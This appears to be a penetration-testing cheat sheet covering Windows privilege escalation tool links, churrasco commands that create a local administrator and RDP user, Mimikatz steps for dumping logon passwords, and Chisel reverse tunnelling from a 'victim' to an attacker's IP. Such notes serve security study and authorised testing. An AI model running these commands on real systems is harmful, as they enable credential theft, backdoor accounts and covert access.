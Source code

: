 ## Priv Esc - Windows

-   [Windows Privilege Escalation Fundamentals](http://www.fuzzysecurity.com/tutorials/16.html)
-   [Windows Privilege Escalation Guide](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)
-   [PowerUp / PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
-   [Powerless - Enumeration Tool](https://github.com/M4ximuss/Powerless)
-   [Local Privilege Escalation Workshop](https://github.com/sagishahar/lpeworkshop)
-   [Just Another Windows (Enum) Script / JAWS](https://github.com/411Hall/JAWS)
-   [Watson](https://github.com/rasta-mouse/Watson)
-   [Sherlock](https://github.com/rasta-mouse/Sherlock) (Deprecated)
-   [Windows Exploit Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester)
-   `churrasco -d "net user /add <username> <password>"`
-   `churrasco -d "net localgroup administrators <username> /add"`
-   `churrasco -d "NET LOCALGROUP "Remote Desktop Users" <username> /ADD"`

## Post Exploitation

1. Mimikatz.exe (run it)
2. privilege::debug
3. sekurlsa::logonpasswords

## Port Forwarding

```
• Local -- Forward local port to remote host.
• Remote -- Forward remote port to local host.
• Dynamic -- Use SOCKS.

Use local if you have a service running on a machine that can be reached from the remote machine, and you want to access it directly from the local machine. After setting up the tunneling you will be able to access the service using your local host IP (127.0.0.1)

Use remote if you have a service that can be reached from the local machine, and you need to make it available to the remote machine. It opens the listening socket on the machine you have used SSH to log into. 

Dynamic is like local, but on the client side it behaves like a SOCKS proxy. Use it if you need to connect with a software that expects SOCKS forwarding.
```

Chisel
local system:

```
./chisel server -p 8080 --reverse
```

victim:

```
./chisel client YOUR_IP:8080 R:1234:127.0.0.1:1234
```
